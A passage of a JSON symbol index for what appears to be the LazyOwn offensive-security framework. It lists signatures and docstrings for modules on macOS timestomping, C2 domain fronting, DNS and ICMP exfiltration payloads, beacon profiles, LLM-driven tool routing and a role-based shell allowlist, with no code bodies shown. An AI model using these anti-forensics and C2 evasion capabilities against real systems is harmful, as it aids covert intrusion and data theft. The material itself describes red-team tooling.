{"doc": "Generate macOS commands for file timestomping.\n\nUses touch, SetFile (Xcode CLT), and xattr for extended attributes.\n\nReturns:\n    Dict with zsh commands for macOS timestamp manipulation.", "kind": "method", "line": 241, "name": "macos_timestomp_commands", "signature": "def macos_timestomp_commands(self)"}, {"kind": "method", "line": 269, "name": "_pick_reference", "signature": "def _pick_reference(self, path, platform)"}, {"doc": "Generate randomized timestamps within a window around the reference.\n\nUseful for batch timestomping where every file gets slightly different\n(but plausible) timestamps instead of identical copies.\n\nArgs:\n    reference_ts: Reference Unix timestamp.\n    window_days: Days before/after reference to scatter.\n\nReturns:\n    Dict with created, modified, accessed timestamps as Unix epoch floats.", "kind": "method", "line": 280, "name": "generate_random_timestamps", "signature": "def generate_random_timestamps(self, reference_ts, window_days)"}, {"doc": "Verify timestamps on target files after modification.\n\nArgs:\n    target_paths: List of file paths to check.\n\nReturns:\n    List of file timestamp dicts.", "kind": "method", "line": 300, "name": "verify_timestamps", "signature": "def verify_timestamps(self, target_paths)"}, {"doc": "Return a summary of available timestomping capabilities.\n\nReturns:\n    Dict with platform coverage and command availability.", "kind": "method", "line": 326, "name": "summary", "signature": "def summary(self)"}]}, {"id": "modules/tmp.sh", "kind": "module", "label": "tmp.sh", "language": "sh", "sha256": "acb54412be50de89", "symbol_count": 0, "symbols": []}, {"doc": "Reusable development tools for the LazyOwn autonomous loop.  These are operator/developer harnesses, not framework runtime code: they sandbox the store, fake the LLM/engine boundary and verify the real user-facing paths (loop runner streaming, monitor TUI) without network access. Run them directly with ``python -m modules.tools.<name>`` or import their ``run()`` from a test/session.", "id": "modules/tools/__init__.py", "kind": "module", "label": "__init__.py", "language": "py", "sha256": "b47a02f3d2478e27", "symbol_count": 0, "symbols": []}, {"doc": "End-to-end smoke of the shared loop runner (no LLM, no network).  Fakes the engine and shell, sandboxes the store, then exercises the real ``modules.lazy_runner.run_loop`` path with the milestone panel: bootstrap streaming, verb output visibility, result reporting and the observer/redirect recursion guard. Reusable across dev sessions via ``python -m modules.tools.loop_smoke`` or ``run()`` from tests.", "id": "modules/tools/loop_smoke.py", "kind": "module", "label": "loop_smoke.py", "language": "py", "sha256": "a376e783f7f6a04f", "symbol_count": 10, "symbols": [{"doc": "Shell stand-in whose verb prints like a real tool would.", "kind": "class", "line": 22, "name": "FakeShell", "signature": "class FakeShell"}, {"doc": "Minimal engine surface used by the runner and progress poller.", "kind": "class", "line": 31, "name": "FakeEngine", "signature": "class FakeEngine"}, {"doc": "Run the smoke and return ``{\"ok\": bool, \"checks\": {...}, \"result\": {...}}``.", "kind": "function", "line": 77, "name": "run", "signature": "def run()"}, {"doc": "CLI entry point: print the checks and exit 0/1.", "kind": "function", "line": 114, "name": "main", "signature": "def main()"}, {"doc": "Emit recognizable output for every routed verb.", "kind": "method", "line": 25, "name": "onecmd_plus_hooks", "signature": "def onecmd_plus_hooks(self, command)"}, {"doc": "Bind a sandboxed task store and runtime tracker.", "kind": "method", "line": 36, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Record the bound shell (runner contract).", "kind": "method", "line": 44, "name": "bind_shell", "signature": "def bind_shell(self, shell)"}, {"doc": "Accept the concurrency knob without scheduling anything.", "kind": "method", "line": 48, "name": "set_concurrency", "signature": "def set_concurrency(self, value)"}, {"doc": "Create the task record and return its id.", "kind": "method", "line": 52, "name": "create_task", "signature": "def create_task(self, goal, description)"}, {"doc": "Run the injected executor once and report a done summary.\n\nThe delay keeps the runner thread alive across several poll\nticks, which is exactly where the transcript feedback loop used\nto hang without emitting anything.", "kind": "method", "line": 56, "name": "orchestrate", "signature": "def orchestrate(self)"}]}, {"doc": "Headless smoke of the Textual worker monitor (``lazy_view``).  Sandboxes the store, seeds one task with activity and a guard audit record, then drives the real :class:`cli.lazy_monitor.LazyMonitorApp` through Textual's ``run_test`` pilot (compose, poll, tab and control keys). No tty, no network. Reusable via ``python -m modules.tools.monitor_smoke`` or ``run()`` from tests.", "id": "modules/tools/monitor_smoke.py", "kind": "module", "label": "monitor_smoke.py", "language": "py", "sha256": "6428c36cd3e8a2d7", "symbol_count": 3, "symbols": [{"doc": "Run the monitor smoke and return ``{\"ok\": bool, \"checks\": {...}}``.", "kind": "function", "line": 20, "name": "run", "signature": "def run()"}, {"doc": "CLI entry point: print the checks and exit 0/1.", "kind": "function", "line": 59, "name": "main", "signature": "def main()"}, {"kind": "function", "line": 40, "name": "_drive", "signature": "def _drive()"}]}, {"doc": "Typed tool sets per agent role with shell allowlists.  Ports the LAZY ``agent/toolcatalog.go`` + ``agent/tools.go`` contract: each agent role (planner / worker / main / goals) owns a fixed tool set. Handlers always live in code; this catalog only decides visibility and safe defaults. Shell commands from the LLM go through :func:`extract_tool` (shlex, not naive split) and :func:`validate_shell`.", "id": "modules/toolset.py", "kind": "module", "label": "toolset.py", "language": "py", "sha256": "81ed7469b7a9305e", "symbol_count": 5, "symbols": [{"doc": "Catalog entry mirroring LAZY ToolSeed (key + desc + agents).", "kind": "class", "line": 27, "name": "ToolSeed", "signature": "class ToolSeed"}, {"doc": "Return the default graph-tool catalog (handlers stay in code).", "kind": "function", "line": 35, "name": "builtin_seeds", "signature": "def builtin_seeds()"}, {"doc": "Return the seed when bound to agent, else None (LAZY ToolResolve).", "kind": "function", "line": 72, "name": "resolve", "signature": "def resolve(agent, tool_key)"}, {"doc": "Split tool name with shlex; flag shell metacharacters.\n\nReturns (tool, has_shell_meta). Empty command yields (\"\", False).", "kind": "function", "line": 105, "name": "extract_tool", "signature": "def extract_tool(command)"}, {"doc": "Check a shell command against the role allowlist.\n\nReturns (allowed, reason). Planner is recon-only; exploit verbs are\ndenied for planner and must run as worker intents (LAZY parity).\nShell metacharacters always require ask (returned as not-allowed\nwith reason shell_meta so the caller routes to approval).", "kind": "function", "line": 128, "name": "validate_shell", "signature": "def validate_shell(role, command)"}]}, {"doc": "modules/toposwarm_bridge.py ============================ Local brain bridge: connects LazyOwn to the TopoSwarm router when cloud LLMs (Groq / Ollama / Claude Code) are unavailable.  TopoSwarm is a 2M-parameter quaternionic toroidal model trained specifically on LazyOwn tool traces.  It routes natural-language operator prompts to the correct LazyOwn tool + argument without any external API call.  Fallback hierarchy this module implements ----------------------------------------- cloud LLMs available?  →  use them (not this module) ↓ no TopoSwarm model loaded? →  neural routing (16-40% acc, improving) ↓ no keyword routing only    →  regex/keyword matching (~80% acc on common phrases)  Public API ---------- bridge = TopoSwarmBridge() result = bridge.route(\"scan open ports on 10.10.11.78\") # result.tool_name  → \"lazyown_run_command\" # result.arg        → \"set rhost 10.10.11.78\\\\nlazynmap\" # result.confidence → 0.92 # result.backend    → \"toposwarm_model\" | \"toposwarm_keyword\"  # For the hive autonomous loop: execute the routed tool via the bridge output = bridge.execute(result)", "id": "modules/toposwarm_bridge.py", "kind": "module", "label": "toposwarm_bridge.py", "language": "py", "sha256": "de2c53e5cd96d545", "symbol_count": 22, "symbols": [{"doc": "Result of a routing decision.", "kind": "class", "line": 71, "name": "RoutedCall", "signature": "class RoutedCall"}, {"doc": "Return a RoutedCall from keyword/pattern matching, or None if no match.", "kind": "function", "line": 202, "name": "_keyword_route", "signature": "def _keyword_route(prompt)"}, {"doc": "Dynamically import from the TopoSwarm repo.", "kind": "function", "line": 241, "name": "_load_toposwarm_modules", "signature": "def _load_toposwarm_modules()"}, {"doc": "Collects user feedback on routing decisions and applies it immediately.\n\nPositive feedback:\n  → Hebbian update on routing_head.liquid.W_fast (instant, no backprop)\n  → Stored as a positive example for the next --finetune run\n\nNegative feedback:\n  → Stored as a hard-negative for the next --finetune run\n  → No model update (we don't want to reinforce the wrong decision)\n\nNon-blocking: feedback() is fire-and-forget. If the user doesn't call it,\nthe flow continues unchanged. Feedback persists to disk so it survives\nacross sessions and is automatically picked up by --finetune.\n\nUsage:\n    result = bridge.route(\"scan 10.10.11.78\")\n    # ... execute tool ...\n    bridge.feedback(result.result_id, good=True,  comment=\"correct tool\")\n    bridge.feedback(result.result_id, good=False, comment=\"wrong, should be hive_spawn\")", "kind": "class", "line": 273, "name": "OnlineFeedbackLoop", "signature": "class OnlineFeedbackLoop"}, {"doc": "Stateful bridge to the TopoSwarm local router.\n\nLazy-loads the model on first use so import cost is zero when TopoSwarm\nis not needed (Groq/Ollama available).", "kind": "class", "line": 424, "name": "TopoSwarmBridge", "signature": "class TopoSwarmBridge"}, {"doc": "Return the module-level TopoSwarmBridge singleton (lazy init).", "kind": "function", "line": 645, "name": "get_bridge", "signature": "def get_bridge()"}, {"doc": "Return the LazyOwn shell command string to execute this tool call.", "kind": "method", "line": 81, "name": "lazyown_command", "signature": "def lazyown_command(self)"}, {"kind": "method", "line": 296, "name": "__init__", "signature": "def __init__(self, maxsize)"}, {"doc": "Register a routing result as pending feedback.", "kind": "method", "line": 303, "name": "register", "signature": "def register(self, result, hidden)"}, {"doc": "Apply feedback for a routing decision.\n\nReturns True if the result_id was found, False otherwise.\nNever raises — this is fire-and-forget.", "kind": "method", "line": 318, "name": "feedback", "signature": "def feedback(self, result_id, good, comment, routing_head)"}, {"kind": "method", "line": 379, "name": "pending_count", "signature": "def pending_count(self)"}, {"kind": "method", "line": 382, "name": "stats", "signature": "def stats(self)"}, {"doc": "Load persisted feedback for --finetune.\nReturns (positive_records, negative_records) as ToolBench-format dicts.", "kind": "method", "line": 389, "name": "load_feedback_for_training", "signature": "def load_feedback_for_training(self)"}, {"kind": "method", "line": 432, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "True if TopoSwarm directory exists (even if model not loaded).", "kind": "method", "line": 444, "name": "available", "signature": "def available(self)"}, {"kind": "method", "line": 449, "name": "model_loaded", "signature": "def model_loaded(self)"}, {"doc": "Attempt to load model + routing head. Returns True on success.", "kind": "method", "line": 452, "name": "_try_load", "signature": "def _try_load(self)"}, {"doc": "Use the neural model to route a prompt. Returns None on failure.", "kind": "method", "line": 493, "name": "_neural_route", "signature": "def _neural_route(self, prompt)"}, {"doc": "Optional user feedback on a routing decision.\n\nNon-blocking — safe to call in a fire-and-forget fashion.\nPositive feedback → immediate Hebbian update on routing head.\nNegative feedback → stored as hard-negative for next --finetune.\n\nReturns True if the result_id was found, False if expired/unknown.\n\nExample:\n    result = bridge.route(\"scan 10.10.11.78\")\n    # ... execute, check output ...\n    bridge.feedback(result.result_id, good=True)\n    bridge.feedback(result.result_id, good=False,\n                    comment=\"should have been hive_spawn\")", "kind": "method", "line": 562, "name": "feedback", "signature": "def feedback(self, result_id, good, comment)"}, {"doc": "Route an operator prompt to a LazyOwn tool call.\n\nTries neural routing first (if model loaded), then keyword routing.\nAlways returns a RoutedCall — never raises.\nEach result has a `result_id` you can pass to bridge.feedback().", "kind": "method", "line": 586, "name": "route", "signature": "def route(self, prompt)"}, {"doc": "Execute a prompt through the full TopoSwarm orchestrator (subprocess).\nReturns the output string. Used by the autonomous loop.", "kind": "method", "line": 613, "name": "execute_via_orchestrator", "signature": "def execute_via_orchestrator(self, prompt, no_model)"}, {"kind": "function", "line": 508, "name": "_hook", "signature": "def _hook(m, i, o)"}]}, {"doc": "C2 traffic obfuscation: domain fronting, protocol mimicking, and traffic shaping.  Provides multiple strategies for disguising C2 traffic to blend in with legitimate network traffic. Supports Cloudflare Workers proxy, domain fronting against CDN providers, HTTPS certificate pinning, and traffic morphing for popular protocols (HTTP/2, WebSocket, DNS, ICMP).", "id": "modules/traffic_morpher.py", "kind": "module", "label": "traffic_morpher.py", "language": "py", "sha256": "3a2b9460825fc0e3", "symbol_count": 11, "symbols": [{"doc": "Transform C2 traffic patterns to mimic legitimate protocols.", "kind": "class", "line": 18, "name": "TrafficMorpher", "signature": "class TrafficMorpher"}, {"kind": "method", "line": 77, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Return a randomized set of HTTP headers mimicking a real browser.\n\nReturns:\n    Dictionary of HTTP headers.", "kind": "method", "line": 81, "name": "get_random_http_headers", "signature": "def get_random_http_headers(self)"}, {"doc": "Return CDN domains suitable for domain fronting.\n\nArgs:\n    provider: CDN provider name (cloudflare, azure, aws, google, fastly).\n    count: Number of domain suggestions to return.\n\nReturns:\n    List of high-reputation CDN domain names.", "kind": "method", "line": 91, "name": "get_cdn_fronting_hosts", "signature": "def get_cdn_fronting_hosts(self, provider, count)"}, {"doc": "Generate random padding bytes to normalize packet sizes.\n\nArgs:\n    min_bytes: Minimum padding size.\n    max_bytes: Maximum padding size.\n\nReturns:\n    Random bytes for traffic padding.", "kind": "method", "line": 108, "name": "generate_traffic_padding", "signature": "def generate_traffic_padding(self, min_bytes, max_bytes)"}, {"doc": "Calculate a sleep delay with jitter.\n\nArgs:\n    base_delay: Base sleep time in seconds.\n    jitter_pct: Percentage of jitter to apply (0.0 - 1.0).\n\nReturns:\n    Adjusted sleep time with random jitter applied.", "kind": "method", "line": 125, "name": "generate_jitter", "signature": "def generate_jitter(self, base_delay, jitter_pct)"}, {"doc": "Encode data as DNS query subdomains for tunneling.\n\nArgs:\n    data: Raw data to tunnel.\n    domain: Base domain for DNS queries.\n    max_subdomain_len: Maximum subdomain label length.\n\nReturns:\n    List of DNS query names.", "kind": "method", "line": 138, "name": "generate_dns_tunnel_payload", "signature": "def generate_dns_tunnel_payload(self, data, domain)"}, {"doc": "Generate ICMP echo payloads for data exfiltration.\n\nArgs:\n    data: Data to exfiltrate.\n    chunk_size: Bytes per ICMP packet.\n\nReturns:\n    List of ICMP payload byte sequences.", "kind": "method", "line": 164, "name": "generate_icmp_exfil_payload", "signature": "def generate_icmp_exfil_payload(self, data, chunk_size)"}, {"doc": "Apply WebSocket frame masking with random key.\n\nArgs:\n    data: Raw data to mask as WebSocket frame.\n\nReturns:\n    Masked WebSocket frame bytes.", "kind": "method", "line": 190, "name": "generate_websocket_masking", "signature": "def generate_websocket_masking(self, data)"}, {"doc": "Generate a Cloudflare Worker script that proxies C2 traffic.\n\nThe worker acts as a reverse proxy, forwarding traffic from the\nCDN edge to the real C2 server while rewriting Host headers.\n\nArgs:\n    c2_host: Real C2 server hostname or IP.\n    c2_port: Real C2 server port.\n    auth_token: Optional pre-shared authentication token.\n\nReturns:\n    Complete Cloudflare Worker JavaScript code.", "kind": "method", "line": 205, "name": "generate_cloudflare_worker_proxy_config", "signature": "def generate_cloudflare_worker_proxy_config(self, c2_host, c2_port, auth_token)"}, {"doc": "Generate a complete C2 beacon profile configuration.\n\nArgs:\n    name: Profile name.\n    protocol: Beacon protocol (https, dns, icmp, websocket).\n    jitter_pct: Jitter percentage for beacon timing.\n    user_agent: Custom user agent string.\n\nReturns:\n    Beacon profile dictionary.", "kind": "method", "line": 270, "name": "generate_beacon_profile", "signature": "def generate_beacon_profile(self, name, protocol, jitter_pct, user_agent)"}]}, {"doc": "HTTP traffic recorder with file-tree storage and SQLite index.  Ports the LAZY ``traffic`` subsystem: every agent-driven HTTP exchange is persisted to a human-browsable directory with a sidecar SQLite index for paged queries. No redaction is applied; scoping is enforced by the caller before recording.", "id": "modules/traffic_recorder.py", "kind": "module", "label": "traffic_recorder.py", "language": "py", "sha256": "e391bdbe081cb114", "symbol_count": 23, "symbols": [{"doc": "Centralized constants for recorder behavior.", "kind": "class", "line": 24, "name": "RecorderConfig", "signature": "class RecorderConfig"}, {"doc": "Collapse numeric path segments so similar URLs group together.", "kind": "function", "line": 69, "name": "url_template", "signature": "def url_template(url)"}, {"doc": "Single recorded HTTP exchange.", "kind": "class", "line": 80, "name": "Exchange", "signature": "class Exchange"}, {"doc": "Append-only recorder backed by files plus SQLite index.", "kind": "class", "line": 91, "name": "TrafficRecorder", "signature": "class TrafficRecorder"}, {"doc": "Create storage directories and initialize the index.", "kind": "method", "line": 94, "name": "__init__", "signature": "def __init__(self, base_dir)"}, {"doc": "Upgrade a pre-trigram ``bodies_fts`` table in place.\n\nOlder sessions shipped the default ``unicode61`` tokenizer, which\ncannot find mid-token strings. The table is dropped and recreated\nwith the trigram tokenizer; ``search_body`` backfills it lazily,\nso the migration stays cheap even on large stores.\n\nArgs:\n    conn: Open index connection (inside the ``__init__`` context).", "kind": "method", "line": 115, "name": "_migrate_fts", "signature": "def _migrate_fts(self, conn)"}, {"doc": "Open a new index connection.", "kind": "method", "line": 132, "name": "_connect", "signature": "def _connect(self)"}, {"doc": "Persist one exchange and return its descriptor.\n\nArgs:\n    method: HTTP method.\n    url: Full request URL.\n    status: Response status code (0 when the exchange failed).\n    req_body: Request body bytes (truncated to the cap).\n    resp_body: Response body bytes (truncated to the cap).\n    content_type: Response content type.\n    req_headers: Request header mapping.\n    resp_headers: Response header mapping.\n    host: Host override (MITM knows it before parsing the URL).\n    port: Port override.\n    scheme: Scheme override (https for MITM'd CONNECT tunnels).\n    task: Optional task tag for loop ingestion.\n    note: Optional failure note.\n\nReturns:\n    Exchange descriptor.", "kind": "method", "line": 138, "name": "record", "signature": "def record(self, method, url, status, req_body, resp_body, content_type, req_headers, resp_headers, host, port, scheme, task, note)"}, {"doc": "Page exchanges newer than a rowid watermark for loop ingestion.\n\nArgs:\n    rowid: Last ingested SQLite rowid (0 starts from the beginning).\n    limit: Max rows per page.\n\nReturns:\n    Row dicts including the ``rowid`` cursor.", "kind": "method", "line": 230, "name": "since", "signature": "def since(self, rowid, limit)"}, {"doc": "Return the current max rowid (0 when the index is empty).", "kind": "method", "line": 247, "name": "latest_rowid", "signature": "def latest_rowid(self)"}, {"doc": "Page exchanges with optional host, status and task filters.", "kind": "method", "line": 253, "name": "query", "signature": "def query(self, host, status, limit, offset, task)"}, {"doc": "Load the stored body document for one exchange.", "kind": "method", "line": 275, "name": "get_body", "signature": "def get_body(self, exchange_id)"}, {"doc": "Read one body in ranges like a blob store.\n\nArgs:\n    exchange_id: Exchange whose body is read.\n    part: ``resp`` (default) or ``req``.\n    offset: Byte offset.\n    length: Max bytes (clamped to 1 MiB).\n\nReturns:\n    Dict with data, offset, length, total and eof.\n\nRaises:\n    ValueError: Unknown part.\n    KeyError: Unknown exchange body.", "kind": "method", "line": 284, "name": "read_body", "signature": "def read_body(self, exchange_id, part, offset, length)"}, {"doc": "Return the total number of recorded exchanges.", "kind": "method", "line": 317, "name": "count", "signature": "def count(self)"}, {"doc": "Index request and response text for full-text search.\n\nFailures are ignored: search falls back to a bounded LIKE scan\nwhen FTS5 is unavailable in the local sqlite build.", "kind": "method", "line": 323, "name": "_index_fts", "signature": "def _index_fts(self, exchange_id, req, resp)"}, {"doc": "Index stored bodies missing from the FTS table.\n\nArgs:\n    batch: Max bodies indexed per call.\n\nReturns:\n    Number of newly indexed exchanges.", "kind": "method", "line": 343, "name": "backfill_fts", "signature": "def backfill_fts(self, batch)"}, {"doc": "Quote a user phrase so FTS5 metacharacters stay literal.", "kind": "method", "line": 375, "name": "_fts_query", "signature": "def _fts_query(query)"}, {"doc": "Full-text search request/response bodies.\n\nUses the FTS5 index when available and falls back to a bounded\nLIKE scan over the most recent bodies otherwise.\n\nArgs:\n    query: Phrase to search for.\n    limit: Max hits.\n\nReturns:\n    Hits with exchange_id, url, status, host and a snippet.", "kind": "method", "line": 382, "name": "search_body", "signature": "def search_body(self, query, limit)"}, {"doc": "Bounded LIKE fallback over the most recent stored bodies.", "kind": "method", "line": 422, "name": "_scan_bodies", "signature": "def _scan_bodies(self, needle, limit)"}, {"doc": "Export the index plus bodies into a portable zip archive.\n\nArgs:\n    path: Destination zip path.\n    limit: Max exchanges (0 exports all).\n    task: Optional task filter for per-task archives.\n\nReturns:\n    Dict with exported/bodies counts and the archive path.", "kind": "method", "line": 451, "name": "export_archive", "signature": "def export_archive(self, path, limit, task)"}, {"doc": "Merge an archive exported by :meth:`export_archive`.\n\nArgs:\n    path: Source zip path.\n\nReturns:\n    Dict with imported/bodies counts and the archive path.\n\nRaises:\n    FileNotFoundError: Archive missing.", "kind": "method", "line": 493, "name": "import_archive", "signature": "def import_archive(self, path)"}, {"doc": "Import every zip dropped in the inbox, moving handled files away.\n\nArgs:\n    inbox_dir: Scan root (defaults to ``<base>/inbox``).\n\nReturns:\n    Dict with imported count and handled file names.", "kind": "method", "line": 554, "name": "import_inbox", "signature": "def import_inbox(self, inbox_dir)"}, {"doc": "Delete exchanges older than a cut-off with their bodies and index rows.\n\nArgs:\n    older_than_sec: Age threshold; 0 disables the sweep.\n\nReturns:\n    Dict with removed count.", "kind": "method", "line": 587, "name": "gc", "signature": "def gc(self, older_than_sec)"}]}, {"doc": "TTP coverage matrix — real-time MITRE ATT&CK technique tracking.  Aggregates executed techniques from all operations, playbooks, and atomic tests into a single matrix view.  Statuses: tested   — technique was executed and produced output failed   — technique was attempted but produced no useful output blocked  — technique is gated by unmet facts (planner couldn't run it) queued   — technique is scheduled but not yet executed ready    — all required facts are present, technique is runnable untested — technique is available but never attempted", "id": "modules/ttp_coverage.py", "kind": "module", "label": "ttp_coverage.py", "language": "py", "sha256": "b2677644a31948a4", "symbol_count": 13, "symbols": [{"kind": "class", "line": 55, "name": "TTPRow", "signature": "class TTPRow"}, {"doc": "Aggregate TTP execution data across all operations.", "kind": "class", "line": 65, "name": "TTPCoverage", "signature": "class TTPCoverage"}, {"doc": "Return a fresh :class:`TTPCoverage`.", "kind": "function", "line": 260, "name": "get_coverage", "signature": "def get_coverage()"}, {"kind": "method", "line": 68, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Re-walk every operation on disk and refresh the matrix.\n\nReturns the number of techniques covered.", "kind": "method", "line": 76, "name": "rebuild_from_operations", "signature": "def rebuild_from_operations(self)"}, {"kind": "method", "line": 125, "name": "add", "signature": "def add(self, technique_id, name, tactic, status, operation_id)"}, {"doc": "Return the techniques that could run given available facts.\n\nA technique is ``ready`` if no blocking fact is missing. The\nrule used here is conservative — the technique is considered\nready if it is ``untested`` and at least one fact matches the\ntechnique's tactic (e.g. ``service.found`` is enough for\n``T1021.*``). Operators should refine this with their own\nability dependency data when available.", "kind": "method", "line": 149, "name": "compute_ready", "signature": "def compute_ready(self, available_facts)"}, {"kind": "method", "line": 168, "name": "_blocking_facts", "signature": "def _blocking_facts(self, tactic)"}, {"doc": "Render a coloured-by-tactic table of all techniques.", "kind": "method", "line": 190, "name": "matrix", "signature": "def matrix(self)"}, {"kind": "method", "line": 231, "name": "status_by_id", "signature": "def status_by_id(self, technique_id)"}, {"kind": "method", "line": 234, "name": "to_dict", "signature": "def to_dict(self)"}, {"kind": "method", "line": 241, "name": "_save_state", "signature": "def _save_state(self)"}, {"kind": "method", "line": 248, "name": "_load_state", "signature": "def _load_state(self)"}]}, {"doc": "UnifiedBridge — single API over all LazyOwn bridges and routing engines.  Merges three previously isolated bridges into one cohesive interface: - lazyown_bridge  : command catalog + phase/service-aware selection - toposwarm_bridge: neural/keyword routing from natural language - mcp_agent_bridge: AI agent delegation (Groq/Ollama)  Plus integration with EventBus (all routing decisions published) and StateManager (context from current campaign state).  Design (SOLID) -------------- - Single Responsibility : route prompts to tools; delegate to agents. - Open/Closed           : add backends via register_route_backend(). - Liskov                : all backends return RouteResult with same shape. - Interface Segregation : route() and delegate() are the only two operations. - Dependency Inversion  : depends on RouteBackend abstraction, not concrete bridges.", "id": "modules/unified_bridge.py", "kind": "module", "label": "unified_bridge.py", "language": "py", "sha256": "88e3fb414c64698d", "symbol_count": 29, "symbols": [{"kind": "class", "line": 46, "name": "RouteResult", "signature": "class RouteResult"}, {"kind": "class", "line": 59, "name": "DelegateResult", "signature": "class DelegateResult"}, {"kind": "class", "line": 67, "name": "RouteBackend", "signature": "class RouteBackend(ABC)"}, {"doc": "Regex/keyword-based routing (~80% accuracy on common pentesting phrases).", "kind": "class", "line": 75, "name": "KeywordBackend", "signature": "class KeywordBackend(RouteBackend)"}, {"doc": "Phase-aware command selection using the lazyown_bridge catalog.", "kind": "class", "line": 123, "name": "LazyownBridgeBackend", "signature": "class LazyownBridgeBackend(RouteBackend)"}, {"doc": "Neural routing via the TopoSwarm 2M-parameter model.", "kind": "class", "line": 161, "name": "TopoSwarmBackend", "signature": "class TopoSwarmBackend(RouteBackend)"}, {"doc": "Single entry point for all LazyOwn routing and delegation.\n\nUsage::\n\n    bridge = UnifiedBridge.get()\n    result = bridge.route(\"scan open ports on 10.0.0.1\")\n    if result.command:\n        executor.run(f\"{result.command} {result.args}\")\n    elif result.tool:\n        # call MCP tool\n        pass\n\n    # Delegate to internal AI agents\n    delegate = bridge.delegate(\"Analyze CVE-2023-1234\", backend=\"groq\")", "kind": "class", "line": 195, "name": "UnifiedBridge", "signature": "class UnifiedBridge"}, {"doc": "Convenience: route a prompt without instantiating UnifiedBridge.", "kind": "function", "line": 483, "name": "route_prompt", "signature": "def route_prompt(prompt, context)"}, {"doc": "Convenience: delegate a task to an AI agent.", "kind": "function", "line": 488, "name": "delegate_task", "signature": "def delegate_task(goal, backend)"}, {"kind": "method", "line": 69, "name": "available", "signature": "def available(self)"}, {"kind": "method", "line": 72, "name": "route", "signature": "def route(self, prompt, context)"}, {"kind": "method", "line": 102, "name": "available", "signature": "def available(self)"}, {"kind": "method", "line": 105, "name": "route", "signature": "def route(self, prompt, context)"}, {"kind": "method", "line": 126, "name": "available", "signature": "def available(self)"}, {"kind": "method", "line": 134, "name": "route", "signature": "def route(self, prompt, context)"}, {"kind": "method", "line": 164, "name": "available", "signature": "def available(self)"}, {"kind": "method", "line": 173, "name": "route", "signature": "def route(self, prompt, context)"}, {"kind": "method", "line": 214, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 219, "name": "_init_backends", "signature": "def _init_backends(self)"}, {"kind": "method", "line": 225, "name": "get", "signature": "def get(cls)"}, {"kind": "method", "line": 230, "name": "set_publish_callback", "signature": "def set_publish_callback(self, cb)"}, {"kind": "method", "line": 233, "name": "_publish", "signature": "def _publish(self, category, event_type, payload)"}, {"doc": "Route a natural-language prompt to the best LazyOwn tool.\n\nTries backends in priority order: TopoSwarm → lazyown_bridge → keyword.\nReturns the first successful (non-empty) route result.\n\nArgs:\n    prompt: Natural-language description of the desired action.\n    context: Optional dict with phase, services, target, etc.\n\nReturns:\n    RouteResult with tool name, command, args, confidence, and backend.", "kind": "method", "line": 253, "name": "route", "signature": "def route(self, prompt, context)"}, {"doc": "Delegate a complex task to an internal AI agent.\n\nDrives the public agent-bridge API: ``start_agent`` spawns the\nworker thread and this method polls ``get_agent_status`` until a\nterminal status or the timeout.\n\nArgs:\n    goal: Task description for the agent.\n    backend: AI backend (\"groq\" or \"ollama\").\n    timeout: Maximum seconds to wait for completion.\n    max_iterations: Tool-calling budget handed to the agent.\n\nReturns:\n    DelegateResult with agent_id, status, and result.", "kind": "method", "line": 300, "name": "delegate", "signature": "def delegate(self, goal, backend, timeout, max_iterations)"}, {"doc": "Poll an agent until it finishes or the timeout expires.\n\nArgs:\n    get_status: The bridge's status accessor to poll.\n    agent_id: Agent identifier returned by ``start_agent``.\n    timeout: Maximum seconds to wait.\n\nReturns:\n    The last status dict, ``{\"status\": \"timeout\"}`` on expiry, or\n    an ``{\"error\": ...}`` dict when the agent is unknown.", "kind": "method", "line": 355, "name": "_await_agent", "signature": "def _await_agent(self, get_status, agent_id, timeout)"}, {"doc": "Execute one LazyOwn shell command non-interactively via a PTY.\n\nMirrors the MCP agent runner: the pseudo-terminal keeps the CLI's\nterminal-size probe happy while the command stream is piped to\nstdin and a trailing ``exit`` line makes the shell quit.\n\nArgs:\n    command: LazyOwn shell command to execute.\n\nReturns:\n    Captured terminal output with ANSI escapes stripped.", "kind": "method", "line": 384, "name": "_run_agent_command", "signature": "def _run_agent_command(self, command)"}, {"kind": "method", "line": 461, "name": "list_backends", "signature": "def list_backends(self)"}, {"kind": "method", "line": 464, "name": "_detect_phase", "signature": "def _detect_phase(self)"}, {"kind": "method", "line": 473, "name": "_get_active_target", "signature": "def _get_active_target(self)"}]}, {"doc": "Unified campaign dashboard — combines all state sources into one view.  The existing :class:`modules.dashboard_engine.DashboardEngine` builds a snapshot from the world model, exploit recommender, auto-pivot, and evasion engine.  However, it does NOT include:  - Hive Mind status (active drones, memory vectors) - Policy Engine status (active rules, last decision) - Autonomous Daemon status (pending objectives, current phase) - Live Surface graph (real-time network topology) - GraphAdvisor pivot candidates  This module fills that gap by composing all data sources into a single unified snapshot suitable for CLI rendering, JSON export, or TUI consumption.  Design (SOLID) -------------- - Single Responsibility : aggregate + render campaign state only. - Open/Closed           : new data sources added as ``_collect_*`` methods. - Dependency Inversion  : depends on ``DashboardEngine`` interface, not concrete implementations of hive/policy/daemon.", "id": "modules/unified_dashboard.py", "kind": "module", "label": "unified_dashboard.py", "language": "py", "sha256": "dc2935ac1e40cdf4", "symbol_count": 15, "symbols": [{"doc": "Aggregates world model, hive, policy, daemon, and graph state.\n\nAttributes:\n    sessions_dir: Path to the sessions directory.", "kind": "class", "line": 37, "name": "UnifiedDashboard", "signature": "class UnifiedDashboard"}, {"doc": "Return a module-level :class:`UnifiedDashboard` singleton.", "kind": "function", "line": 259, "name": "get_unified_dashboard", "signature": "def get_unified_dashboard(sessions_dir)"}, {"kind": "method", "line": 44, "name": "__init__", "signature": "def __init__(self, sessions_dir)"}, {"kind": "method", "line": 49, "name": "_get_dashboard", "signature": "def _get_dashboard(self)"}, {"kind": "method", "line": 65, "name": "_get_graph", "signature": "def _get_graph(self)"}, {"doc": "Build a complete dashboard snapshot from all data sources.\n\nReturns:\n    Dict with keys: world_model, hive_status, policy_status,\n    daemon_status, live_graph, graph_advice, dashboard, timestamp.", "kind": "method", "line": 76, "name": "build_unified_snapshot", "signature": "def build_unified_snapshot(self)"}, {"kind": "method", "line": 95, "name": "_collect_world_model", "signature": "def _collect_world_model(self)"}, {"kind": "method", "line": 104, "name": "_collect_hive_status", "signature": "def _collect_hive_status(self)"}, {"kind": "method", "line": 114, "name": "_collect_policy_status", "signature": "def _collect_policy_status(self)"}, {"kind": "method", "line": 124, 